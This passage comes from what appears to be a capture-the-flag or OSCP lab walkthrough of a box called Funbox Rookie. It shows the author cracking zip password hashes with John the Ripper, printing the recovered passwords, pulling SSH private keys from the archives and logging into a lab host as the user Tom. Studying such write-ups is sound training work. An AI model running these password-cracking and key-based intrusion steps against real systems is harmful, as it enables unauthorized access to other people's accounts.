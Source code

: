   

echo "Hashes dumped to hashes.txt."

chmod + x zip_hasher.sh

./ zip_hasher.sh

boom hashes dumped to hashes.txt (Now to test if john likes it.)

A simple john hashes.txt dumps catherine and tom's passwords

Tom: iubire

Catherine: catwoman

Got these creds so now time to use them to get into the system. Will unzip the files now.

Got two private keys. One for Tom and one for Catherine

Got Tom first so will use his to get in.

Making the key usable via ssh

chmod 600 id_rsa

Now to connect 

ssh -i id_rsa tom@192.168.199.107 (-i for ID or Insert key)

And I'm inside Tom's system

⚙  kali  🏡  OSCP  Funbox_Rookie_Linux                                                                         

 →  ssh -i id_rsa tom@192.168.199.107                                                                      08:07:07

The authenticity of host '192.168.199.107 (192.168.199.107)' can't be established.

ED25519 key fingerprint is SHA256:ZBER3N78DusT56jsi/IGcAxcCB2W5CZWUJTbc3K4bZc.

This key is not known by any other names.

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '192.168.199.107' (ED25519) to the list of known hosts.

Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

  

 * Documentation:  https://help.ubuntu.com

 * Management:     https://landscape.canonical.com

 * Support:        https://ubuntu.com/advantage

  

  System information as of Sat May 13 12:10:17 UTC 2023

  

  System load:  0.0               Processes:             161

  Usage of /:   74.5% of 4.37GB   Users logged in:       0

  Memory usage: 35%               IP address for ens256: 192.168.199.107

